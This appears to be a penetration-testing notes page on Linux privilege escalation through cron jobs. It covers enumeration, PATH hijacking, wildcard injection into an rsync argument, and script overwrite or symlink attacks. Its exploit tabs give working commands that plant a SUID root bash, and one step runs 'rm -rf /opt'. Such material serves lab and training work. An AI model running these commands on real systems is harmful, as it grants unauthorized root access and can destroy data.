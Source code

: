 # Cron Jobs

## Theory

Cron is a job scheduler in Unix-based operating systems. Cron Jobs are used for scheduling tasks by executing commands at specific dates and times on the server.\
By default, Cron runs as root when executing _/etc/crontab_, so any commands or scripts that are called by the crontab will also run as root. It can be an intresting privelege escalation path.

## Practice

### Misc Cron Jobs

{% tabs %}
{% tab title="Enumerate" %}
You may want to enumerate cron jobs with the following commands

```bash
#Print jobs with Crontab binary
crontab -l
crontab -l -u username

#Directly cat files
cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"

#In /etc/ and subfolders
cat /etc/crontab
cat /etc/cron*/*

# In /var/spool
cat /var/spool/cron/*
cat /var/spool/cron/crontabs/*
```
{% endtab %}

{% tab title="Monitor" %}
By using [**pspy**](https://github.com/DominicBreuker/pspy), you can fetch processes without root privileges. It can be useful to detect cron jobs

```bash
# -p: print commands to stdout
# -f: print file system events to stdout
# -i: interval in milliseconds
./pspy64 -pf -i 1000
```
{% endtab %}
{% endtabs %}

### Cron Path&#x20;

{% tabs %}
{% tab title="Enumerate" %}
For example, inside _/etc/crontab_ you can find the PATH: `PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`

We need to check if we have **permissions** to write on each path, if a the binary in the cron job is specified without the full command path, we&#x20;

```bash
$ cat /etc/crontab

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *    * * *   root    path-exploit.sh
```
{% endtab %}

{% tab title="Exploit" %}
We need to check if we have permission to write each path.

```bash
ls -al /usr/local/
ls -al /usr/
ls -al /
```

Assume we can write an arbitrary binary file under **`/home/user`**, and its specified in the crontab PATH as in the example. We can create a payload in there.&#x20;

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/path-exploit.sh
chmod +x /home/user/path-exploit.sh
```

Then wait for the job to execute.

```bash
/tmp/bash -p
```
{% endtab %}
{% endtabs %}

### Wildcard Injection

{% tabs %}
{% tab title="Enumerate" %}
If a cron job script executed by root has a **`*`** inside a command, you may be able to exploit it.&#x20;

```bash
$ cat /etc/crontab

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *    * * *   root    rsync -a *.sh rsync://host.back/src/rbd
```
{% endtab %}

{% tab title="Exploit" %}
In the previous case, we can exploit it like this

```bash
touch "-e sh myscript.sh"

echo '<PAYLOAD>' > myscript.sh
```

Read the following page for more wildcard exploitation tricks: [HERE](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks)
{% endtab %}
{% endtabs %}

### File Overwriting and Symlink

{% tabs %}
{% tab title="Enumerate" %}
If you **can modify a cron job script** executed by root, or it use a **directory where you have full access**, the we can exploit it.

```bash
$ cat /etc/crontab

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *    * * *   root    /opt/crons/overwrite.sh
```
{% endtab %}

{% tab title="Exploit" %}
If we have write permissions on the script, we can exploit by overwriting it:

```bash
#Check you have permissions
ls -la /opt/crons/overwrite.sh

#Overwrite
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /opt/crons/overwrite.sh

#Wait until it is executed
/tmp/bash -p
```

If we have **full access over the directory**, maybe it could be useful to delete that folder and **create a symlink folder to another one** serving a script controlled by you

```bash
#Check you have permissions
ls -la /

#Remove folder and create the symlink target
rm -rf /opt
mkdir /tmp/crons

#Create a new script
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /tmp/crons/overwrite.sh

#Create symlinl folder
ln -d -s /tmp/crons/ /opt/crons/
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation" %}

{% embed url="https://tryhackme.com/room/linuxprivescarena" %}
